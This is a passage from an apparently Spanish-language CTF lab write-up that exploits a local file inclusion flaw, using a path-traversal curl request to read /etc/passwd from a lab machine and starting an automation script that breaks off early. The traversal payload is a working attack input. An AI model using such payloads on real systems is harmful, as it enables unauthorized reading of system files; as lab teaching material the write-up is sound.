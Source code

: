 De primeras vemos que no podemos ver el `/etc/passwd`

![](/assets/images/vh-writeup-pivoting2/5.png)

Pero si retrocedemos varios directorios asi atras si es posible entonces  es vulnerable a `LFI` 

![](/assets/images/vh-writeup-pivoting2/6.png)

El usuario `root` y `miguel` tiene un `bash`

```bash
❯ curl -s "http://192.168.1.153:8593/index.php?book=../../../../../../../etc/passwd" | grep bash
We are still setting up the library! Try later on!<p>root:x:0:0:root:/root:/bin/bash
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
```

`miguel` no tiene una `clave id_rsa` para poder conectarnos por `ssh` tenemos que convertir el `LFI` a `RCE`

![](/assets/images/vh-writeup-pivoting2/7.png)

Bueno podrias hacerte un script en `Bash` o `Python3` para automatizar el `LFI` pero bueno solo es opcional yo hice algo asi

```bash
#!/bin/bash 

#Colours
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function ctrl_c(){
  echo -e "\n\n${redColour}[!] Saliendo...${endColour}"
```